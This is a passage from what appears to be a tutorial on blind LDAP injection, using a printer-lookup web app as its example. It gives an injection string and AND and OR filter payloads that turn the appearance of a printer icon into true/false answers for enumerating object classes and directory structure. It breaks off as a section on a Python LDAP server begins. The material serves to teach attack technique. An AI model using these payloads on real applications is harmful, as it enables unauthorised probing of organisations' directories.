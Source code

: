 As a result, if any Canon printers are available, icons of these printers are shown to the client. Otherwise, no icon is present. This is an exemplary true/false situation.

### Blind LDAP Injection
If we inject string "*)(objectClass=*))(&(objectClass=void", then the web app will issue the following query:
```bash
(&(objectClass=*)(objectClass=*))(&objectClass=void)(type=Canon*))
```

> In that casem only the first LDAP query will be processed resulting in (&(objectClass=*)(objectClass=*)) being extracted from the back-end.

As a result,  the printer icon will be shown to the client. As this query always returns results due to objectClass being set to a wildcard. We can construct further true/false statements in the following way:
```bash
(&(objectClass=*)(objectClass=users))(&objectClass=foo)(type=Canon*))
(&(objectClass=*)(objectClass=resources))(&objectClass=foo)(type=Canon*))
```
- Using such queries, its possible to enumerate possible object classes based on true/false conditions (printer icon should be shown or not)

Similar logic can be used in case of **OR** blind LDAP injection. Consider the following query with injected part in red:
```bash
(|(objectClass=void)(objectClass=void))(&objectClass=void)(type=Canon*))
```

> Such a query returns no object, so the printer icon should not be shown to the user


In order to gather information, a similar technique can be applied:
```bash
(|(objectClass=void)(objectClass=users))(&objectClass=void)(type=Canon*))
(|(objectClass=void)(objectClass=resources))(&objectClass=void)(type=Canon*))
```

> This will allow us to enumerate the directory structure


## LDAP Python implementation
Consider the following code that can be responsible For implementing LDAP Server logic

### Implementing LDAP Server
Here we are importing some modules:
